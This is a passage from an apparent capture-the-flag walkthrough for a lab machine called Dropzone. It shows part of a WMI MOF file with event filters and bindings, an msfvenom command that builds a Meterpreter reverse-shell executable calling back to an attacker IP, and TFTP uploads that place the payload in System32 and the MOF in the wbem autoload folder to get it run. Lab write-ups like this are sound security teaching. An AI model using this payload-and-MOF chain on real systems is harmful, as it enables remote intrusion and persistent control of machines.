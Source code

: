 ```cpp
};
instance of __EventFilter as $Filt
{
	Name = "instfilt";
	Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \"MyClass89\"";
	QueryLanguage = "WQL";
};
instance of __EventFilter as $Filt2
{
	Name = "qndfilt";
	Query = "SELECT * FROM __InstanceDeletionEvent WITHIN 1 WHERE TargetInstance ISA \"Win32_Process\" AND TargetInstance.Name = \"dropzone.exe\"";
	QueryLanguage = "WQL";
	
};
instance of __FilterToConsumerBinding as $bind
{
	Consumer = $cons;
	Filter = $Filt;
};
instance of __FilterToConsumerBinding as $bind2
{
	Consumer = $cons2;
	Filter = $Filt2;
};
instance of MyClass89 as $MyClass
{
	Name = "ClassConsumer";
};
=> nil
```

We can copy this code and put it into a new file with .mof extension, then we can create a Meterpreter payload with msfvenom with the same name used in the call to generate_mof:

```shell-session
┌─[baud@parrot]─[~/dropzone]
└──╼ $msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.37 LPORT=9999 -f exe -o dropzone.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: dropzone.exe
```

Once started a listener on Metasploit to receive the incoming connection from the box we can upload both files, first the executable inside System32 after entering binary mode (ASCII mode is the default and would transfer the program in an incorrect format), then the .mof file:

```shell-session
tftp> binary
tftp> put dropzone.exe /windows/system32/dropzone.exe
Sent 73802 bytes in 9.3 seconds
tftp> put baud.mof /windows/system32/wbem/mof/baud.mof
Sent 2219 bytes in 0.3 seconds
tftp>
```
